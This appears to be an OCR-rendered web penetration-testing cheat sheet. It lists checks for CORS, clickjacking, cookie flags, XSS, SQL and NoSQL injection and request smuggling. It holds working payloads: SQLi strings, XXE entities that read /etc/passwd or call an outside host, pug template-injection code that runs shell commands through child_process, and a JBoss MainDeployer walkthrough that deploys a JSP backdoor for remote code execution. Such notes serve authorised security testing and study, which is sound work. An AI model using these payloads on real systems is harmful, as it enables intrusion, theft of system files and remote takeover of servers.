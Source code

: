  CORS: Access-Control-Allow-Origin:*;
  CLICKJACKING (only inside session): no X-Frame-Options;
check session cookies:
  secure flag
  httponly flag
check hidden content in pages
check XSS (DOM, reflected, stored, blind)
check SQLi: ' or 1=1 -- -; blind; time based;
check NoSQLi: PARAMETER[$ne]=user
check XXE (XML external entity): <!DOCTYPE foo [<!ENTITY test 'test123'>]> <tag>&test;</tag> <!DOCTYPE foo [<!ENTITY xxe SYSTEM 'file:///etc/passwd'>]> <tag>&xxe;</tag> <!DOCTYPE foo [<!ENTITY xxe SYSTEM 'http://test.com'>]> <tag>&xxe;</tag>
Check request smuggling: smuggler -u URL -l FILE_NAME
Padding Oracle attacks: perl padBuster.pl URL

### Wordpress

URL/?author=ID
URL/?s=author
URL/?s=by

### JBOSS

jmx-console:

CVE-2007-1036

<https://www.exploit-db.com/exploits/16318>

msfconsole:

use exploit/multi/http/jboss_maindeployer

manually exploit:

create a backdoor.jsp with the content of <https://github.com/fuzzdb-project/fuzzdb/blob/master/web-backdoors/jsp/cmd.jsp>",

create a backdoor.war

create a python server to serve the war on jboss.system:MainDeployer go to redeploy and enter the url for the backdoor and press invoke

go to <http://VUNERABLE.APP/backdoor/backdoor.jsp> and have RCE

### SQLi

<https://portswigger.net/web-security/sql-injection/cheat-sheet>

### SSTI

#### node.js

pug template engine:

```text
    p #{7*7}
    p #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('ls -la')}()}
    p #{function(){localLoad=global.process.mainModule.constructor._load;sh=localLoad('child_process').exec('id', (error, stdout, stderr) => { global.out=String(stdout) }) }() }
    p #{out}
```
